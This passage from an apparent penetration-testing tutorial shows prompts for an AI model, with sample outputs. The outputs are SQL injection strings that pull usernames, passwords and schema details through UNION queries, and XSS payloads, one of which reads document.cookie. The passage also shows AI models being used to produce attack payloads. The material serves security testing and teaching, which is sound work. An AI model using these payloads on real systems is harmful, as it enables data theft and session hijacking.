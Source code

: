 Use these endpoints with tools like `gobuster` or `dirsearch` to find accessible resources.

## 3. Crafting SQL Injection Queries

SQL Injection (SQLi) is a technique used to exploit vulnerabilities in a web application’s database query handling. It occurs when user inputs are not properly sanitized, allowing attackers to manipulate SQL queries to access, modify, or delete data. Penetration testers use SQLi to test for flaws that could lead to unauthorized access, data breaches, or even complete database compromise.

**Prompt to AI:**
```
Write SQL queries to extract data from a database with tables 'users', 'products', and 'orders' using a SQL injection vulnerability.
```

**Example Output:**
```sql
1. Extract usernames and passwords:
' UNION SELECT username, password FROM users --

2. Extract table names:
' UNION SELECT table_name, NULL FROM information_schema.tables --

3. Extract sensitive columns:
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' --
```

Use these queries directly in SQL-injectable parameters or tools like SQLMap to automate the process.

## 4. Automating XSS Payload Generation

Cross-Site Scripting (XSS) involves identifying vulnerabilities where an application improperly handles user input, allowing attackers to inject malicious scripts into web pages viewed by other users. These scripts can steal session cookies, redirect users, or execute malicious actions on behalf of the victim. Penetration testers look for XSS vulnerabilities to ensure the application properly sanitizes and escapes input to prevent such attacks.

**Prompt to AI:**
```
Generate XSS payloads for these contexts:
1. Inside a <script> tag.
2. As a URL parameter.
3. Inside an HTML attribute.
```

**Example Output:**
```plaintext
1. <script>alert(document.cookie)</script>
2. https://example.com?q=<script>alert('XSS')</script>
3. <img src=x onerror="alert('XSS')">
```

Inject these payloads into input fields, URLs, or other attack surfaces and observe the behavior.
